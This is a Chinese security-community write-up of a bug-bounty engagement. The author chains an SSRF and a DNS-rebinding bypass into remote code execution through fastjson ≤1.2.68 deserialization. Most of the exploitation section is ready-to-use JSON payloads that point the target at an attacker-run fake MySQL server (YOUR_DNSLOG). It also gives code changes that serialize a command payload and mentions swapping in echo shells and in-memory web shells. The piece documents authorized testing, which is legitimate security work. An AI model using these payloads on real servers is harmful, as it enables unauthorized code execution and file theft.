# 记某众测Fastjson<=1.2.68反序列化RCE过程-先知社区

> **来源**: https://xz.aliyun.com/news/17489  
> **文章ID**: 17489

---

# 前言

在某次众测过程中使用搜索引擎找到某单位部署的旁站，通过前端JS信息分析找到一处ssrf漏洞。在ssrf测试时根据提示信息得到服务端接收的数据格式为json格式，再通过构造json报错语句时服务端报错回显了fastjson版本号为1.2.58，然后寻找Fastjson 1.2.58利用链，最后RCE。很幸运利用的过程中都如预期所料没出现坑点。

# 寻找漏洞

在渗透过程中，如果遇到一些部署了很久的老站点（比如zf、edu），利用搜索引擎和网站时光机(web.archive.org)可以发现大量历史资产。下面以百度为例，使用过程中感觉必应搜集到的信息比谷歌要多





这个过程中我使用必应找到了xx系统，然后对js进行分析，找到了xxx/checkTokenByUrl接口，由于是键值对的形式，直接搜索键值xxx\_CANENTER就能找到对应的参数。（漏洞修复在前端将这些接口都删了没图~~哈哈）



## SSRF漏洞

然后就找到了这三个参数，构造请求，根据参数名可以发现callBackUrl应该是接受一个url地址，将url指向个人VPS地址，接收到了请求。

orgId=&accessToken=&callBackUrl=





到此基本可以判断此处存在SSRF了，再将url地址指向一个内网IP，根据响应时间判断通内网



根据响应包报错提示可以发现，服务端远程获取数据时，返回的数据不是map类型，也就是json。然后在VPS中，控制返回数据为json，服务端响应token失效



既然这里解析json那么就测试一下是使用jackson还是fastjson

`{"@type": "java.lang.AutoCloseable"`

`{"a\x63aa":"00"}`报错为jackson，反之fastjson

这里使用`{"@type": "java.lang.AutoCloseable"`服务端直接报错返回fastjson版本（补图）



fastjson<=1.2.68一般使用JDBC相关利用链，但是这里我没有进行利用，直接提交报告。我赌他肯定不会完完全全修复的，果然等了几天后漏洞确认并进行了修复，但是没有完全修复。hahahaha~~

## 梅开二度

上面提到，漏洞被修复了，然后我就查看它是如何进行修复的，经过一番测试发现，传入的url地址不能为ip地址，从传入域名没有进行限制。





这要怎么利用呢？可以使用**DNS重绑定**绕过限制，众所周知DNS协议的作用是域名到IP的过程，如果将域名指定为一个内网IP就能就能绕过限制。<http://dnslog.pw/>就有这个功能



这里可以自己申请一个域名或者使用DNS重绑定的IP指向自己的VPS（国内VPS要备案）

那么接下来就进行fantjson反序列化测试了。

# Fastjson <= 1.2.68反序列化RCE探索

对于fastjson <= 1.2.68版本，目前常用的利用链是JDBC文件读取、JDBC反序列化、文件写入还有文件读取等，不过较通用的是JDBC文件读取、JDBC反序列化

## fastjson依赖库判断

在进行JDBC利用链探测时，首先要判断mysql-connector-java版本是多少，我这里直接使用对于的poc

来自这篇文章：<https://mp.weixin.qq.com/s/I0OdFPnRH_r1yZ04tOB-cw>

fastjson<=1.2.68，mysql-connector-java-5.1.1-5.1.49可SSRF 5.1.11至5.1.48可反序列化

```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 3306,
  "info": {
    "user": "yso_xxx",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```

fastjson<=1.2.68，mysql-connector-java-6.0.2-6.0.3可反序列化

```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection",
  "proxy": {
    "connectionString": {
      "url": "jdbc:mysql://YOUR_DNSLOG:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_xxx_calc"
    }
  }
}
```

fastjson<=1.2.68，mysql-connector-java-8.0.19可反序列化，>8.0.19可SSRF

```
{
    "@type": "java.lang.AutoCloseable",
    "@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
    "proxy": {
        "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
        "connectionUrl": {
            "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",
            "masters": [{
                "host": ""
            }],
            "slaves": [],
            "properties": {
                "host": "YOUR DNSLOG",
                "user": "yso_xxx_calc",
                "dbname": "dbname",
                "password": "pass",
                "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
                "autoDeserialize": "true"
            }
        }
    }
}
```

```
{
"@type": "java.lang.AutoCloseable",
"@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
  "proxy": {
    "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
    "connectionUrl": {
      "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",
      "masters": [
        {
          "host": ""
        }
      ],
      "properties": {
        "allowUrlInlocalInfile": "true",
        "allowLoadLocalInfile": "true",
        "autoDeserialize": "true",
        "dbname": "dbname",
        "host": "YOUR_DNSLOG",
        "password": "pass",
        "port": "7777",
        "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
        "user": "win_ini"
      },
      "slaves": []
    }
  }
}
```

## 反序列化利用

在上面探测中，这个payload成功触发dnslog

```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 3306,
  "info": {
    "user": "yso_xxx",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```

既然触发了DNSLOG，那么接下来就可以搭建一个利用Mysql服务了，用到了下面这个项目，根据使用说明书进行使用

python<3.8用这个`https://github.com/fnmsd/MySQL_Fake_Server`

python3.8+用这个`https://github.com/clown1ay/MySQL_Fake_Server`

首先进行文件读取，user指定要读取的文件

```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 7777,
  "info": {
    "user": "win_ini",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```

本地和目标系统都读取不成功，本地mysql-connector-java为5.1.47



转战反序列化，先进行DNSURL利用链探测，反序列化操作是否成功

```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 7777,
  "info": {
    "user": "yso_URLDNS_http://YOUR_DNSLOG",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```

本地演示





既然能正常执行反序列化操作，那么下一步就需要测试命令执行。这里使用到了@Y4tacker大佬给出的利用链

<https://paper.seebug.org/2067/>



## 代码微调

直接拿文章中给出的代码进行修改，添加这段代码，将反序列化的内容保存到文件中。自定义执行命令

```
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("fastjson1268.bin"));
oos.writeObject(hashMap);
oos.close();
```



还要修改`MySQL_Fake_Server`项目server.py文件，get\_yso\_content函数的内容，让其从指定文件中读取

```
with open(r'fastjson1268.bin','rb') as f:
    file_content = f.read()
return file_content
```



将生成的fastjson1268.bin放到server.py文件同级目录中，运行server.py文件

user填入yso\_xxx就能触发server.py的get\_yso\_content函数，此时fastjson测试payload为

```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 7777,
  "info": {
    "user": "yso_URLDNS_http://YOUR_DNSLOG",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```

很幸运系统成功触发了命令执行ping xx.dnslog.com

到此就完成了RCE，证明漏洞危害，提交报告。

## 反序列化改造

查看Y4大佬给出的利用链可以发现，其使用的是TemplatesImpl进行动态加载字节码，那么直接将字节码改为回显马和内存马也是可以的，我将回显马编译为class文件，然后读取该文件，传入到\_bytecodes中





​
